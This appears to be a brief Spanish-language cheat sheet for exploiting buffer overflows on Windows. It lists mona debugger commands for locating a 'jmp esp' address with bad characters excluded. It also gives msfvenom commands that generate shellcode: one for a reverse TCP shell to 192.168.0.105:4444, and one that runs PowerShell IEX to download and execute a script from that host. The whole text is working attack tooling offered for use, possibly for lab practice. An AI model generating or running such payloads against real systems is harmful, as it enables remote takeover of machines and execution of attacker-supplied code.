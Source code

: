 ## MONA
#### Configurar carpeta de trabajo
!mona -set workingfolder C:\Users\win7bits\Desktop\%p
#### Encontrar el punto de salto
!mona jmp -r esp -cpb \x07\x2e\xa0\x00"


## SHELLCODE
#### cmd
msfvenom -p windows/shell_reverse_tcp lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c
#### Powershell
msfvenom -p windows/exec CMD="powershell IEX(New-Object Net.WebClient).downloadString('http://192.168.0.105:8000/PS.ps1')" lhost=192.168.0.105 lport=4444 EXITFUNC=thread -a x86 --platform windows -b "\x00" -f c

